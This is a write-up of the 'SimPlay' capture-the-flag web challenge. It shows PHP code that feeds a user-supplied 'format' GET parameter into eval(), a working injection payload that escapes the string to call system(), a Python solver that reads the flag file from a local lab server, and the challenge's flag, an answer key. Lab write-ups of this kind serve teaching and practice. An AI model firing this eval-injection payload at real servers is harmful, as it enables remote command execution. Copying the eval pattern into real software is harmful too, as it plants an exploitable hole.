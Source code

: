 # [__SimPlay__](#)

### Description:
* The agency has picked up on a addictive mobile application, that predicts when someone will find love. We suspect foul play by the evil company behind this obvious scheme. We think that the company will try to have this application installed on every device in the world for mind control. Agent, we need you to infiltrate the recent website they launched and save the world.

### Objective:
* RCE

### Difficulty:
* `very easy`

### Flag:
* `HTB{3v4l_h4s_put_y0ur_3v1l_pl4ns_und3r!}`

### Challenge:

<p align='center'>
  <img src='assets/preview.png'>
</p>

# [__🏭 Time Factory__](#time-factory)

On [`controllers/TimeController.php`](challenge/controllers/TimeController.js), we see that the the application expects input through `$_GET`'s `format` value, if there isn't one it defaults to `'r'` and then passes it to `TimeModel` and displays the invoked `getTime` method to the view.

```javascript
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

On [`models/TimeModel.php`](challenge/models/), the function argument then constructs a variable called `format` which is later going to be passed on to `eval()`.

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

Using the `format` GET parameter, we can escape the string context of the function argument and invoke `system()` to get rce.

<p align='center'>
  <img src='assets/rce.png'>
</p>


### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={'format': "'${ system($_GET[_]) };", '_': 'cat /flag*'})
print(r.text)
```
